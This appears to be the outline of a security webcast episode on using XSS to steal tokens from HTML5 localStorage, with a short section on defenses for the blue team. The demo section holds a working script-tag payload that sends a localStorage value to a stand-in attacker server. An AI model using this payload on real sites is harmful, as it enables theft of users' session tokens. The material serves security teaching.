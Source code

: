 HTML5 Storage Exfil via XSS - Tradecraft Security Weekly - Episode #23

# XSS Overview
- Reflected: Non-persistent
- Persistent: Stored somewhere
- DOM-based: Client-side only
- Re-dressing HTML
- CSRF: The Big Brother
# Attack all the things
- Check all URL parameters (GET)
- Check all Form parameters (POST)
- Check all request headers
- Check all cookies
	- Inject XSS via 'error' parameter
	- Steal localStorage token
	- Exfil data to remote server
# HTML5 LocalStorage
- Offline Storage
- Should never be trusted!
- Steal all the things:
	- localStorage.getItem()
- Infect all the things:
	- localStorage.setItem()
- Onjects shared by Origin (Same Origin Policy)
# DEMO
- check in console using localStorage.getItem()to find the parameter we want
```
<script>$.get('http://attackerserver.com:8080/?'+localStorage.getItem('stuff-tosteal'));</script>
```
- pass payload into the ?error=
# Additional ideas...
- Load external scripts via XSS
- Inject payloads that may phone home
- Combine XSS w/ CSRF
- So.Many.Bypasses
- Polyglots!!!
# For the Blue Team
- Escape HTML, Attributes, JavaScript, JSON, CSS & URL (& to &amp; and < to &lt; and > to &gt; and etc..)
- Use mature HTML Sanitization library
- Use HTTPOnly and Secure Flags on cookies
- Implement Content Security Policy